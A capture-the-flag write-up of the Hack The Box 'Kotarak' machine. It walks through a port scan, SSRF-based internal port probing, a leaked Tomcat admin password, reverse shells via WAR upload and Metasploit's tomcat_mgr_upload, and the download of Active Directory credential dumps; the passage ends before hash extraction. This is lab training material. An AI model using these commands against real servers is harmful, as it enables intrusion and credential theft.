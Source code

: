 ```yaml
---
layout: post
title: Kotarak(HTB)
categories:
  - Writeup
---
```


<br>OS linux
<br>IP: 10.10.10.55


**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.55</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-03-10 02:58 EST
<br>Warning: 10.10.10.55 giving up on port because retransmission cap hit (6).
<br>Nmap scan report for 10.10.10.55
<br>Host is up (0.17s latency).
<br>Not shown: 65531 closed ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">22/tcp</font>    open  <font color="53E100">ssh</font>     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
<br><font color="BB69EC">8009/tcp</font>  open  <font color="53E100">ajp13</font>   Apache Jserv (Protocol v1.3)
<br><font color="BB69EC">8080/tcp</font>  open  <font color="53E100">http</font>    Apache Tomcat 8.5.5
<br><font color="BB69EC">60000/tcp</font> open  <font color="53E100">http</font>    Apache httpd 2.4.18 ((Ubuntu))
<br>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel</p>

<p>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 3859.03 seconds</p>

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>

</div>
</font>

<br>**Web**:-
<br>**PORT**:- 8080

![1](https://teckk2.github.io/assets/images/Kotarak/1.JPG)
<br>Tomca 8.5.5 is running
![2](https://teckk2.github.io/assets/images/Kotarak/2.JPG)
<br>To access it we need a valid password, let's find it.

<br>**Port**:- 60000
![3](https://teckk2.github.io/assets/images/Kotarak/3.JPG)
<br>On this port a private web service is running which access the file from internal system, let's enumerate it further
![4](https://teckk2.github.io/assets/images/Kotarak/4.JPG)
![5](https://teckk2.github.io/assets/images/Kotarak/5.JPG)
<br>There is no ouput, and the server is running a url.php and we also need to specify a path which Maybe running in some internal port,So we need to find the correct internal port first.
<br>**for i in $(seq 1 60000); do echo $i; curl -X GET http://10.10.10.55:60000/url.php?path=http://localhost:$i/ 2> /dev/null | tr -d "\n"; done**
![6](https://teckk2.github.io/assets/images/Kotarak/6.JPG)
<br>Thanks my friend [**Zc00l**](https://www.hackthebox.eu/profile/3564) for helping me in the bash command above, this will ping all the internal port 1 by 1 and if it get's any response it will show it to us in the output.
![7](https://teckk2.github.io/assets/images/Kotarak/7.JPG)
<br>On internal port **888** we got some response which is is refering to a doc file named backup, let's try to read it
![8](https://teckk2.github.io/assets/images/Kotarak/8.JPG)
![9](https://teckk2.github.io/assets/images/Kotarak/9.JPG)
<br>And we got the admin password to loggin to Tomcat server
<br>username="**admin**" password="**3@g01PdhB!**"
![10](https://teckk2.github.io/assets/images/Kotarak/10.JPG)

<br>**Shell**
<br>**First Method**-(NC)
<br>First generate a java payload for reverse shell with .war extension
![11](https://teckk2.github.io/assets/images/Kotarak/11.JPG)
<br>Now from tomcat webpage, browse the file and upload it,
![12](https://teckk2.github.io/assets/images/Kotarak/12.JPG)
![13](https://teckk2.github.io/assets/images/Kotarak/13.JPG)
<br>Now steup the listner and then click the file, or just open it on another browser and we will get the reverse shell

<font size="1">
<div style="height:100px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nc -nlvp 4455
<br>listening on [any] 4455 ...
<br>connect to [10.10.*.*] from (UNKNOWN) [10.10.10.55] 51012
<br>id
<br>uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
<br><font color="ffff00">python -c 'import pty;pty.spawn("/bin/bash")'</font>
<br>tomcat@kotarak-dmz:/$ </p>

</div>
</font>

<br>**Second Method**-(Meterpreter)

<font size="1">
<div style="height:600px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf > use exploit/multi/http/tomcat_mgr_upload
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > set HttpPassword 3@g01PdhB!
<br>HttpPassword => 3@g01PdhB!
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > set HttpUsername admin
<br>HttpUsername => admin
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > set RHOST 10.10.10.55
<br>RHOST => 10.10.10.55
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > set RPORT 8080
<br>RPORT => 8080
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > set payload java/meterpreter/reverse_tcp 
<br>payload => java/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.14.10
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > set LPORT 444
<br>LPORT => 444
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > exploit</p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:444 
<br><font color="RoyalBlue">[*]</font> Retrieving session ID and CSRF token...
<br><font color="RoyalBlue">[*]</font> Uploading and deploying SpSZIX2EJFTDocUB04tgi...
<br><font color="RoyalBlue">[*]</font> Executing SpSZIX2EJFTDocUB04tgi...
<br><font color="RoyalBlue">[*]</font> Undeploying SpSZIX2EJFTDocUB04tgi ...
<br><font color="RoyalBlue">[*]</font> Sending stage (49645 bytes) to 10.10.10.55
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:444 -> 10.10.10.55:33730) at 2018-03-10 06:27:46 -0500</p>

<p>meterpreter > getuid 
<br>Server username: tomcat
<br>meterpreter >
<br>...
<br>....
<br>.....
<br>meterpreter > pwd
<br>/home/tomcat/to_archive/pentest_data
<br>meterpreter > ls -la
<br>Listing: /home/tomcat/to_archive/pentest_data
<br>=============================================</p>

<p>Mode&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Size&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Type&nbsp;&nbsp;Last modified&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Name
<br>----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;-------------&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----
<br>100666/rw-rw-rw-&nbsp;&nbsp;16793600&nbsp;&nbsp;fil&nbsp;&nbsp;&nbsp;2017-07-21 12:16:23 -0400&nbsp;&nbsp;20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br>100666/rw-rw-rw-&nbsp;&nbsp;12189696&nbsp;&nbsp;fil&nbsp;&nbsp;&nbsp;2017-07-21 12:16:45 -0400  20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin</p>

<p>meterpreter > download 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit\r
<br><font color="RoyalBlue">[*]</font> Downloading: 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 4.00 KiB of 16.02 MiB (0.02%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 8.00 KiB of 16.02 MiB (0.05%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 12.00 KiB of 16.02 MiB (0.07%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 16.00 KiB of 16.02 MiB (0.1%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br>....
<br>......
<br>........
<br><font color="RoyalBlue">[*]</font> Downloaded 16.00 MiB of 16.02 MiB (99.9%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 16.00 MiB of 16.02 MiB (99.93%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 16.01 MiB of 16.02 MiB (99.95%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 16.01 MiB of 16.02 MiB (99.98%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 16.02 MiB of 16.02 MiB (100.0%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> download   : 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br>meterpreter > download 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloading: 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 4.00 KiB of 11.62 MiB (0.03%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 8.00 KiB of 11.62 MiB (0.07%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 12.00 KiB of 11.62 MiB (0.1%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 16.00 KiB of 11.62 MiB (0.13%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 20.00 KiB of 11.62 MiB (0.17%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br>....
<br>......
<br>........
<br><font color="RoyalBlue">[*]</font> Downloaded 11.61 MiB of 11.62 MiB (99.87%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 11.61 MiB of 11.62 MiB (99.9%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 11.62 MiB of 11.62 MiB (99.93%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 11.62 MiB of 11.62 MiB (99.97%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 11.62 MiB of 11.62 MiB (100.0%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> download   : 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br>meterpreter > </p>

</div>
</font>

<br>We don't have user access, so from **/home/tomcat/to archive/pentest data** I downloaded both the files which was .dit and .bin.
<br>The ntds.dit file is the heart of Active Directory including user accounts. Active Directory's database engine is the Extensible Storage Engine ( ESE ) which is based on the Jet database used by Exchange 5.5 and WINS.
<br>So now from these files we can extract the password hash of users, but before that we need to download few tools

















